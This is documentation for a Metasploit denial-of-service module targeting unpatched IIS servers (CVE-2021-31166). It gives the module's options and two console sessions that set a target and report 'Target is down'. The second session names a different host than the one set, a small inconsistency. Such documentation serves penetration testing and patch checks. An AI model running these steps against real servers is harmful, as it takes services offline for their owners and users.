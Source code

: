## Vulnerable Application

IIS web server on Windows 10 and Windows Server version 20H2 and 2004 without KB5003173.

### Source

 - [Microsoft](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-31166)

## Options

### RHOST

 - **Required**
 - Type: **address**
 - *No default value*

Should be the weak IIS server address.

### RPORT

 - **Required**
 - Type: **integer**
 - Default value: **80**

Should be the weak IIS server port.

### TARGETURI

 - **Optional**
 - Type: **string**
 - Default value: **/**

## Scenarios

```text
msf6 > use exploit/windows/iis/rb_dos_iis_2021_31166
msf6 auxiliary(windows/iis/rb_dos_iis_2021_31166) > set RHOST 10.10.10.10
RHOST => 10.10.10.10
msf6 auxiliary(windows/iis/rb_dos_iis_2021_31166) > exploit
[*] Running module against 10.10.10.10

[+] Target is down.
[*] Auxiliary module execution completed
msf6 auxiliary(windows/iis/rb_dos_iis_2021_31166) >
```

```text
msf6 > use exploit/windows/iis/rb_dos_iis_2021_31166 
msf6 auxiliary(windows/iis/rb_dos_iis_2021_31166) > set RHOST 10.10.10.10
RHOST => 10.10.10.10
msf6 auxiliary(windows/iis/rb_dos_iis_2021_31166) > set RPORT 80
RPORT => 80
msf6 auxiliary(windows/iis/rb_dos_iis_2021_31166) > set TARGETURI "/test/"
TARGETURI => /test/
msf6 auxiliary(windows/iis/rb_dos_iis_2021_31166) > set VERBOSE true
VERBOSE => true
msf6 auxiliary(windows/iis/rb_dos_iis_2021_31166) > exploit
[*] Running module against 192.168.56.9

[*] Trying first connection...
[+] First connection OK. Sending payload...
[+] Payload is sent. Check that the server is down...
[-] The connection was refused by the remote host (10.10.10.10:80).
[+] Target is down.
[*] Auxiliary module execution completed
msf6 auxiliary(windows/iis/rb_dos_iis_2021_31166) >
```

## Reference

 - [Microsoft](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-31166)
 - [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2021-31166)
